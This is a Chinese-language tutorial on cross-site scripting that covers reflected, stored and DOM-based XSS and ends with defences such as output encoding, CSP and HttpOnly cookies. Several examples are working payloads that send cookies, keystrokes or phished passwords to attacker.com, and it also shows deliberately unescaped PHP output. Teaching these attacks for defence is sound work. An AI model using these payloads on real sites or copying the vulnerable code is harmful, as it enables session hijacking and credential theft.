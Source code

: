 # 跨站脚本攻击（Cross-Site Scripting, XSS）

跨站脚本攻击（XSS）是一种常见的网络安全漏洞，攻击者通过在受信任的网站中注入恶意代码，当用户浏览该网站时，恶意代码会在用户的浏览器中执行。XSS 攻击可能导致用户信息泄露、会话劫持、网站篡改等安全问题。

## XSS 攻击的主要类型

### 1. 反射型 XSS（Reflected XSS）

反射型 XSS 是最常见的 XSS 攻击类型，攻击者将恶意代码嵌入到 URL 中，当用户点击这个 URL 时，恶意代码会被发送到服务器，然后反射回用户的浏览器并执行。

**示例：**

假设一个网站有搜索功能，搜索结果会显示用户的搜索词：

```html
<!-- 服务器端代码 -->
<p>搜索结果: <?php echo $_GET['query']; ?></p>
```

攻击者可以构造如下 URL：
```
https://example.com/search?query=<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie</script>
```

当用户点击这个链接时，恶意脚本会执行并将用户的 cookie 发送到攻击者的服务器。

### 2. 存储型 XSS（Stored XSS）

存储型 XSS 是指恶意代码被存储在目标服务器上（如数据库），当用户访问包含此恶意代码的页面时，代码会被执行。这种攻击通常出现在论坛、评论系统等允许用户提交内容的地方。

**示例：**

假设一个论坛允许用户发表评论：

```html
<!-- 用户提交的评论被存储到数据库 -->
<!-- 后续显示评论时 -->
<div class="comment">
  <?php echo $comment; ?>
</div>
```

攻击者可以提交如下评论：
```html
这是一个很好的文章！<script>var img = new Image(); img.src = "https://attacker.com/steal.php?cookie=" + document.cookie;</script>
```

当其他用户浏览包含这条评论的页面时，恶意脚本会执行，窃取用户的 cookie。

### 3. DOM 型 XSS（DOM-based XSS）

DOM 型 XSS 是通过修改页面的 DOM 环境来进行攻击的，不需要与服务器交互。这种攻击完全发生在客户端。

**示例：**

假设一个网页使用 JavaScript 从 URL 的 hash 部分获取数据并显示：

```html
<script>
  document.getElementById("greeting").innerHTML = "Hello, " + location.hash.substring(1);
</script>
<div id="greeting"></div>
```

攻击者可以构造如下 URL：
```
https://example.com/page.html#<img src=x onerror="alert(document.cookie)">
```

当用户访问这个 URL 时，恶意代码会被插入到页面的 DOM 中并执行。

## 更多 XSS 攻击示例

### 1. 窃取用户会话

```html
<script>
  var img = new Image();
  img.src = "https://attacker.com/steal.php?cookie=" + encodeURIComponent(document.cookie);
</script>
```

### 2. 网站篡改

```html
<script>
  document.body.innerHTML = '<div style="color:red; font-size:50px;">网站已被黑客入侵！</div>';
</script>
```

### 3. 键盘记录

```html
<script>
  document.addEventListener('keypress', function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'https://attacker.com/log.php?key=' + e.key, true);
    xhr.send();
  });
</script>
```

### 4. 钓鱼攻击

```html
<div style="position:absolute; top:0; left:0; width:100%; height:100%; background-color:white; z-index:9999;">
  <h2>请重新登录</h2>
  <form action="https://attacker.com/steal.php">
    用户名: <input type="text" name="username"><br>
    密码: <input type="password" name="password"><br>
    <input type="submit" value="登录">
  </form>
</div>
```

## XSS 防御措施

1. **输入验证和过滤**：验证用户输入并过滤特殊字符。

2. **输出编码**：在输出用户提供的内容时进行 HTML 编码。
   ```javascript
   function htmlEncode(str) {
     return String(str)
       .replace(/&/g, '&amp;')
       .replace(/</g, '&lt;')
       .replace(/>/g, '&gt;')
       .replace(/"/g, '&quot;')
       .replace(/'/g, '&#39;');
   }
   ```

3. **使用内容安全策略（CSP）**：限制可执行脚本的来源。
   ```
   Content-Security-Policy: default-src 'self'; script-src 'self' trusted-scripts.com;
   ```

4. **使用 HttpOnly 标志**：防止 JavaScript 访问 cookie。
   ```
   Set-Cookie: sessionid=abc123; HttpOnly; Secure
   ```

5. **使用现代框架**：如 React、Vue 等，它们默认会对输出进行转义。

6. **定期进行安全审计和渗透测试**：检测和修复潜在的 XSS 漏洞。

## 总结

XSS 攻击是一种严重的安全威胁，可能导致用户数据泄露、账户被劫持等严重后果。开发人员应该了解不同类型的 XSS 攻击及其防御措施，确保应用程序的安全性。通过实施适当的输入验证、输出编码和其他安全措施，可以有效地防止 XSS 攻击。

